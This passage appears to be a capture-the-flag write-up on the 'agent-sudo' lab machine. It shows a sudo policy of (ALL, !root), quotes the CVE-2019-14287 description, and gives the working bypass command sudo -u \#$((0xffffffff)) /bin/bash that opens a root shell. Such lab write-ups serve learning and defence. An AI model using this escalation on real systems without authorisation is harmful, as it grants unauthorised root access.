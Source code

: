 ames@agent-sudo:~$ sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash



It looks like our user is not allowed to run `/bin/bash` as `root` since we have a `!root`.

here !root means that the user is allowed to run the command as any user except root



but a google search returns us something we might be able to use to gain root privileges.

![](https://blog.qz.sg/content/images/2021/10/image-33.png)

According to [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)

> __In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a `sudo -u \#$((0xffffffff))` command.__

Version 1.8.28 eh.

![](https://blog.qz.sg/content/images/2021/10/image-34.png)

Looks vulnerable


We can use below command to escalate privileges

```
james@agent-sudo:~$ sudo -u \#$((0xffffffff)) /bin/bash
root@agent-sudo:~# ls
```


